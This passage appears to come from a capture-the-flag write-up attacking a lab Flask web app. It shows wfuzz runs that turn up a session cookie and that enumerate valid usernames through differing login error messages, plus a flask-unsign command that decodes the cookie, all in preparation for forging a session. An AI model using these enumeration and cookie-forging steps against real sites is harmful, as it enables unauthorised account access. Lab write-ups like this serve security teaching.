```
000001208:   200        82 L     144 W    2444 Ch     "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YkQbNg.aeOcEqo5Lu6G3McCv1lriOegoOY"                                                             

Total time: 361.2894
Processed Requests: 10177
Filtered Requests: 10176
Requests/sec.: 28.16854

```

It finds one. That one decodes to:

```

oxdf@hacky$ flask-unsign --decode --cookie "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YkQbNg.aeOcEqo5Lu6G3McCv1lriOegoOY"
{'logged_in': True, 'username': 'blue'}

```

#### Brute Username Using Login Oracle

I noted during enumeration that the site returned slightly different messages for an invalid user and invalid credentials for a real user. I can use that to find a valid username to forge a cookie for.

I’ll use `wfuzz` to send login requests for all the users in the [SecLists](https://github.com/danielmiessler/SecLists) `names.txt`, and watch for any that don’t respond “Invalid credentials”. There’s one hit:

```

oxdf@hacky$ wfuzz -u http://10.10.11.160:5000/login -d "username=FUZZ&password=junkpassword" -w /usr/share/seclists/Usernames/Names/names.txt --hs "Invalid credentials"
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.160:5000/login
Total requests: 10177

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000001208:   200        68 L     110 W    2034 Ch     "blue"

Total time: 195.6524
Processed Requests: 10177
Filtered Requests: 10176
Requests/sec.: 52.01569

```
